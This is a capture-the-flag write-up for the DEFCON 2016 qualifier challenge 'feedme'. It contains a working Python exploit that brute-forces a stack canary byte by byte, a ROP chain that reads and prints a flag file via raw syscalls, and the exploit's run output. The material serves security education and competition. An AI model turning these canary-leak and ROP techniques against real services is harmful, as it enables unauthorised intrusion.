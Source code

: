 #feedme - DEFCON 2016

First at all execute `file` command on the binary
```bash
$ file feedme 
feedme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
```

and with `checksec` we see that NX is enabled and debugging a little bit we realize that the usage of the binary is simple: a "parent" process launches child processes that takes 1 byte `x`, then reads `x` number of bytes. But the length of the buffer is 32, so if we send "\x36" + "A"*0x36 the canary is overwritten and smash the stack detected. 

So we have to leak the canary in order to overwrite the return address. The bug was that child's canary is always the same, so we can try to send 0x32 bytes of garbage and bruteforce the 33th byte (easy, always `\x00`), then the 34th, then the 35th and 36th one.

This part of the exploit is 

```python 
#!/usr/bin/env python2

import sys, socket, telnetlib
from struct import *
import random
import time
import binascii
import time
def recvuntil(t):
    data = ''
    while not data.endswith(t):
        tmp = s.recv(1)
        if not tmp: break
        data += tmp

    return data

def interactive():
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

def p32(x): return pack('<I', x)
def u32(x): return unpack('<I', x)[0]
def p64(x): return pack('<Q', x)
def u64(x): return unpack('<Q', x)[0]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], int(sys.argv[2])))
recvuntil("FEED ME!\n")
canary = "\x00"
while len(canary)!=4:
	for brute in range(0,255):
		#print brute
		init = binascii.unhexlify(hex(32+len(canary)+1)[2:])
		garbage = "A"*32
		
		if len(hex(brute)[2:])==1:
			pad = "0"
		else:
			pad = ""
		tryLeakByteCanary = binascii.unhexlify(pad + hex(brute)[2:])
		s.send(init + garbage + canary+ tryLeakByteCanary)
		data = recvuntil("FEED ME!\n")
		if "YUM" in data:
			print "LEAKED: "  + str(tryLeakByteCanary)
			print data
			canary += tryLeakByteCanary
			break
```

and then we write a ROPchain that reads `flag` string, open `flag` file and write its content to std output (we spent a lot of time trying to execve /bin/sh, we wrote custumized ROPchain also. Only after some hours we decided to follow this way. After solving the challenge we read on IRC "pwnables have busybox -> /bin/sh. Your execve shell code is probably broken" -> **** off!).

```python
p = ''
p += p32(0x080bb496) #pop eax
p += p32(0x3)#read sys
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x5)#flag\x00
p += p32(0x080eaf80)#BSS address
p += p32(0x0)
p += p32(0x0806FA20) #int 80; ret


p += p32(0x080bb496) #pop eax
p += p32(0x5) #fopen
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x0)
p += p32(0x0)
p += p32(0x080eaf80) #address of flag string
p += p32(0x0806FA20) #int 80; ret

p += p32(0x080bb496) #pop eax
p += p32(0x3) #read sys
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x100) #length
p += p32(0x080ea060) #.data address
p += p32(0x2) #FD
p += p32(0x0806FA20) #int 80; ret

p += p32(0x080bb496) #pop eax
p += p32(0x4) #write sys
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x100) #length
p += p32(0x080ea060)#address
p += p32(0x01) #FD
p += p32(0x0806FA20) #int 80; ret
``` 

PWN THEM!!

```python
init = binascii.unhexlify(hex(len(garbage + canary + "A"*12 + p))[2:])
s.send(init + garbage + canary + "A"*12  + p)
print recvuntil("...\n")
print "interactive "
s.send("flag\x00")
interactive()
```

```bash
$ python exploit.py feedme_47aa9b0d8ad186754acd4bece3d6a177.quals.shallweplayaga.me 4092
LEAKED: R
ATE 41414141414141414141414141414141...
YUM, got 34 bytes!
Child exit.
FEED ME!

LEAKED: 
ATE 41414141414141414141414141414141...
YUM, got 35 bytes!
Child exit.
FEED ME!

LEAKED: �
ATE 41414141414141414141414141414141...
YUM, got 36 bytes!
Child exit.
FEED ME!

CHECK len(canary): 4
�anary: R
PWN THEM!!

ATE 41414141414141414141414141414141...

interactive 
The flag is: It's too bad! we c0uldn't??! d0 the R0P CHAIN BLIND TOO
��������@�
         Child exit.
FEED ME!
```

The full exploit is available here the full exploit is available [here](exploit.py)! 
